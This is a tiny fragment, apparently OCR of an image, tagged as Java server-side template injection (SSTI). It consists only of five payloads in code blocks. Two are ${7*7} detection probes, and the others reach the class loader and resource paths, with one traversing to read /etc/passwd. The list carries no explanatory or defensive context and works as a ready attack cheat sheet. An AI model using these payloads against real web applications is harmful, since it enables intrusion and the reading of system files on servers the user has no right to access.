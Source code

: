 #SSTI #java

```
${7*7}
```

```
${{7*7}}
```

```
${class.getClassLoader()}
```

```
${class.getResource("").getPath()}
```

```
${class.getResource("../../../../../etc/passwd").getContent()}
```